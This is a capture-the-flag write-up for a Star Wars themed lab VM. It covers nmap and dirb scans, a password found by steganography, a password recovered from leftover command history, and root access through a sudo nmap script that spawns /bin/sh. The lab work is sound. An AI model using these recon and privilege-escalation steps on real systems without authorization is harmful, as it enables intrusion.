





root@kali:~# nmap -PS 192.168.57.15
Starting Nmap 7.80 ( https:// nmap .org ) at 2020-09-06 17:16 EDT
Nmap scan report for 192.168.57.15
Host is up (0.00053s latency).
Not shown: 998 closed ports
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http
root@kali:~# dirb http://192.168.57.15
GENERATED WORDS: 4612
- --- Scanning URL: http://192.168.57.15/ ----
+ http://192.168.57.15/admin (CODE:200|SIZE:3753)
==> DIRECTORY: http://192.168.57.15/images/
+ http://192.168.57.15/index.html (CODE:200|SIZE:548)
==> DIRECTORY: http://192.168.57.15/javascript/
==> DIRECTORY: http://192.168.57.15/manual/
+ http://192.168.57.15/robots.txt (CODE:200|SIZE:105)
+ http://192.168.57.15/server-status (CODE:403|SIZE:278)
+ http://192.168.57.15/wordpress (CODE:200|SIZE:54)
There is nothing there, the login does not actually go anywhere:
Running stegoveritas on yoda.png:
Result:
root@kali:~/Downloads/results/keepers# cat 1599426719.9636476
the real password is babyYoda123
Finding the username to go with the password:
Oops I missed this:
Trying the cewl wordlist with skywalker:
This file suggests Darth must have a cronjob running:
skywalker@starwars:~$ cat .secrets/note.txt
Darth must take up the job of being a good father
skywalker@starwars:~$ id -a
uid=1001(skywalker) gid=1001(skywalker) groups=1001(skywalker),2000(anakin)
This must be the script run for the job, it must run every minute.
skywalker@starwars:/home/Darth/.secrets$ cat evil.py
# Let the fear flow through you every single minute
fear = 1
anger = fear
hate = anger
suffering = hate
I looked for the job couldn’t find it.
Used this to get the password for Darth. (The creator of this box forgot to clear the command history) Combine these into luke12clone50, and log in to Darth.
Oops I really messed up there.
Use mktemp to create a temporary file that can be executed with the nmap script param
Darth@starwars:/home/skywalker$ TF=$(mktemp)
Darth@starwars:/home/skywalker$ echo 'os.execute("/bin/sh")' > $TF
Darth@starwars:/home/skywalker$ sudo nmap --script= $TF
FIN.